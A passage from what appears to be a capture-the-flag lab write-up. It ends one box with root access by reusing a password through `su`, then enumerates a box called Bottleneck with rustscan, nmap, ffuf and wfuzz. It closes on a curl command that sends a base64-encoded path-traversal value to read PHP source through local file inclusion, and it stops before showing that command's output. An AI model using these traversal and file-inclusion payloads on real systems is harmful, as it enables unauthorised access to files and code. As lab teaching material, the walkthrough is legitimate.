 6. Privilege Escalation: since I enumerate that hadi and found nothing interesting, also `sudo -l` didn't work, trying to run `su` with the same password five us root:
```
hadi@debian:~$ su
Password:
root@debian:/home/hadi# whoami
root
root@debian:/home/hadi#
```

### Bottleneck

1. Enumeration: run `rustscan` and found two ports 22,80, so run nmap against them, found that ssh is on version 7.9p1, the web contain the title BOTTLENECK, so going to enumerate it more with web fuzzing tool.

2. Web Fuzzing: run `webenum` and `feroxbuster` found nothing, but still we have no other service we must continue and enumerate the target with web fuzzing tool. run `ffuf` against the target with the dirb wordlist found the following:
```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://192.168.166.22/FUZZ -e .php
...
image_gallery.php       [Status: 200, Size: 6381, Words: 1626, Lines: 169, Duration: 371ms]
```
Or we can also use wfuzz, since we know that there is index.php page which is the default landing page we can enumerate only for php pages.
```
wfuzz -w /usr/share/wordlists/dirb/big.txt -u  "http://192.168.166.22/FUZZ.php" --hc 404
...
000009353:   200        168 L    348 W      6381 Ch     "image_gallery"
000009563:   200        272 L    729 W      10175 Ch    "index"  
```
Then going to that URL over the browser and run F12 found that this page give us back parameters to include on the URL it self, the first one is t and the second is f:
```
http://192.168.166.22/image_gallery.php?t=1709652216&f=Ym90dGxlbmVja19kb250YmUucG5n
```

3. Web Assessment: The f value look like short for file, so run `└─$ echo "Ym90dGxlbmVja19kb250YmUucG5n" | base64 -d` give us back the value `bottleneck_dontbe.png`, this may mean that this url can be use for local file inclusion (LFI), but for the t value it look like time, so search on google found that `date +%s` give us back the current time. So running burpsuite and the following query for trying get back the php code itself and understand what going on in that page.
```
proxychains4 curl "http://192.168.166.22/image_gallery.php?t=$(date +%s)&f=$(echo -n ''../../../../../../www/html/image_gallery.php'|base64)"
```
The output for that one query is the following: